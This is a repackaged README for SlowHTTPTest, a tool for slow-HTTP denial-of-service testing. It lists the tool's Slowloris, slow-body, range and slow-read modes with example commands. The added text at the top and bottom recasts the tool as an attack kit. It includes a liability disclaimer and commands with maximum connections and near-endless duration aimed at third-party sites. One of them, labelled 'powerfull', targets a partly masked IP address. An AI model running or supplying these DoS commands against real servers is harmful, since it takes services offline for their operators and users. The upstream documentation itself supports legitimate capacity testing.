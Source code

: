 ## Disclaimer ##

Any actions and or activities related to the code provided is solely your responsibility.The misuse of the information in this website can result in criminal charges brought against the persons in question. The authors will not be held responsible in the event any criminal charges be brought against any individuals misusing the information in this tool to break the law.
## For install  ##
sudo ./configure && sudo make && sudo make install
slowhttptest 
## for usage ##
slowhttptest -H -u https://loadbal.sni.example.com

attention format like this 

slowhttptest -H -u http://www.xxxv.com -r 200 -l 99999 -c 65539

# SlowHTTPTest #

[![Build Status](https://travis-ci.org/shekyan/slowhttptest.svg?branch=master)](https://travis-ci.org/shekyan/slowhttptest)

SlowHTTPTest is a highly configurable tool that simulates some Application Layer Denial of Service attacks by prolonging HTTP connections in different ways.

Use it to test your web server for DoS vulnerabilites, or just to figure out how many concurrent connections it can handle.
SlowHTTPTest works on majority of Linux platforms, OS X and Cygwin - a Unix-like environment and command-line interface for Microsoft Windows, and comes with a Dockerfile to make things even easier.

Check out [Wiki](https://github.com/shekyan/slowhttptest/wiki) for installation and usage details.

Latest official image is available at [Docker Hub](https://hub.docker.com/repository/docker/shekyan/slowhttptest):
`docker pull shekyan/slowhttptest:latest`

## command for help ##

slowhttptest -h

slowhttptest, a tool to test for slow HTTP DoS vulnerabilities - version 1.8.3

Usage: slowhttptest [options ...]

Test modes:

  -H               slow headers a.k.a. Slowloris (default)
  
  -B               slow body a.k.a R-U-Dead-Yet
  
  -R               range attack a.k.a Apache killer
  
  -X               slow read a.k.a Slow Read
  
Reporting options:

  -g               generate statistics with socket state changes (off)
  
  -o file_prefix   save statistics output in file.html and file.csv (-g required)
  
  -v level         verbosity level 0-4: Fatal, Info, Error, Warning, Debug
  
General options:

  -c connections   target number of connections (50)
  
  -i seconds       interval between followup data in seconds (10)
  
  -l seconds       target test length in seconds (240)
  
  -r rate          connections per seconds (50)
  
  -s bytes         value of Content-Length header if needed (4096)
  
  -t verb          verb to use in request, default to GET for
  
###  EXAMPLES
     Start a slowloris test of host.example.com with 1000 connections, statistics goes into
     my_header_stats, interval between follow up headers is 10 seconds and connection rate is 200
     connections per second:

      $ slowhttptest -c 65539 -H -g -o my_header_stats -i 10 -r 200 -t GET -u https://host.example.com/index.html -x 24 -p 3 -l 99999

     Start slow POST test of host.example.com with 3000 connections, statistics goes into
     my_body_stats, interval between follow up headers is 110 seconds, connection rate is 200
     connections per second, Content-Length header value is 8192, maximum length of follow up
     data is random value limited by 10 bytes and probe connections waits 3 seconds for HTTP
     response before marking server as DoSed:

      $ slowhttptest -c 3000 -B -g -o my_body_stats -i 110 -r 200 -s 8192 -t FAKEVERB -u http://host.example.com/loginform.html -x 10 -p 3

     Start Range Header test of host.example.com with 1000 connections, use HEAD verb, and
     generate HTTP header Range:0-, x-1, x-2, x-3, ... x-y, where x is 10 and y is 3000,
     connection rate is 500: interval between follow up headers is 10 seconds and connection rate
     is 200 connections per second:

      $ slowhttptest -R -u http://host.example.com/ -t HEAD -c 1000 -a 10 -b 3000 -r 500

     Start Slow Read test of host.example.com with 8000 connections, no statistics is generated,
     connection rate is 200 connections per second, TCP advertised window size is a random value
     between 512 and 1024, slowhttptest reads 32 bytes from each connections every 5 seconds, 3
     requests are pipelined per each connections, probe connection waits 3 seconds for HTTP
     response before marking server as DoSed:

       $ slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u https://host.example.com/resources/index.html -p 3

     Start Slow Read test of host.example.com through HTTP proxy server at 10.10.0.1:8080 with
     8000 connections, no statistics is generated, the rest test vaules are default.
     slowhttptest most likely would test HTTP proxy server itself, rather than target server, but
     it all depends on the HTTP proxy server implementation:

       $ slowhttptest -d 10.10.0.1:8080 -c 8000 -X -u https://host.example.com/resources/index.html

     Start Slow Read test of host.example.com and direct probe traffic through HTTP proxy server
     at 10.10.0.1:8080 with 8000 connections, no statistics is generated, the rest test vaules
     are default.  Specifying another connection channel for probe connections helps to make sure
     that slowhttptest shows valid statistics for availability of server under test:
 
       $ slowhttptest -e 10.10.0.1:8080 -c 8000 -X -u https://host.example.com/resources/index.html

powerfull  $ slowhttptest -d 2x.75.207.xx:80 -c 65539 -X -u http://www.xxx.com/index.html
